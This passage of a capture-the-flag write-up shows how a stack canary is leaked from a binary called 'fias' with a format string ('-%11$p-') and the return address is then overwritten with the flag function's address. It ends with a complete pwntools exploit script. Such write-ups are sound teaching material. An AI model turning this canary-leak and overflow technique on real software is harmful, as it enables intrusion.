 These two lines of code are important as these actually take the canary from the `eax` register, and put it before the return pointer:
```
   0x804924c <say_hi+19>:       mov    eax,gs:0x14
=> 0x8049252 <say_hi+25>:       mov    DWORD PTR [ebp-0xc],eax
```
So we can see the canary in the eax register here:
```
[----------------------------------registers-----------------------------------]
EAX: 0x35131100 
EBX: 0x804c000 --> 0x804bf0c --> 0x1
```
So the canary for this runthrough is `0x35131100`
And fast forward to the second `printf` after `gets` which will print our leaked value:
```
gdb-peda$ 
0x35131100!
```
And they match!

## Finding second offset

Again, I did this via trial and error, and I made sure to use the correct canary of course. Through my trial and error, I found the second offset is **12**, then the next 4 bytes overwrite the return pointer

## Finding return pointer

This was simple, all I needed to do was view the functions, like I did before:
`0x080491d2    1 43           sym.flag`
So you'll get `0x080491d2`

## Creating local exploit

We now have everything we need to write the exploit, and I'll be using python3 with pwntools. And this is what my local exploit looked like:
```python
from pwn import *

e = ELF("fias")
io = e.process()

io.recvline()	# These recieve all the junk
io.recvline()
io.recvline()
io.recvline()

io.sendline("-%11$p-")			# Sends format string
recieved = io.recvline().decode().split("-")	# Leaks the canary, and recieves it
canary = int(recieved[1],16)		# Convert to hex number
log.info("Canary: " + str(hex(canary)))		# Print canary
io.recvline()	# More junk

payload = b"a" * 25		# Padding
payload += p32(canary)		# Canary (p32 is basically struct.pack)
payload += b'bbbbccccdddd'	# More padding
payload += p32(0x080491d2)	# Return pointer

io.sendline(payload)	# Send payload
print(io.recvline().decode())	# Recieve flag
io.close()
```
